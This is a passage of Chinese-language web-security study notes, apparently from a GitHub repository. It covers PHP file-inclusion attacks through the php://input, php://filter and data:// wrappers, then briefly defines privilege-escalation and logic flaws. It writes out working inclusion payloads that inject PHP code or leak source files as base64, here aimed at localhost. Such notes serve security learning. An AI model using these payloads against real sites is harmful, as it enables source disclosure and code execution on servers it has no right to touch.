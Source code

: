 ```php
```
![Alt text](21.png)
### 二远程文件包含
#### 利用 php 流 input：
利用条件：
1、allow_url_include = On。
2、对 allow_url_fopen 不做要求。
```php
index.php?file=php://input
POST:
<?php phpinfo();?>
```
#### 利用php filter:
利用条件：无
```
?file=php://filter/convert.base64-encode/resource=index.php
```
#### 利用 data
PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on URIs：
http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>


http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

## 五.越权
### 原理:越权漏洞的成因主 要是因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定，导致单个用户可以操作其他人的信息。
## 六.逻辑漏洞
### 逻辑错误漏洞是指由于程序逻辑不严或逻辑太复杂，导致一些逻辑分支不能够正常处理或处理错误，一般出现在任意密码修改、越权访问、密码找回、交易支付金额。
任意用户密码重置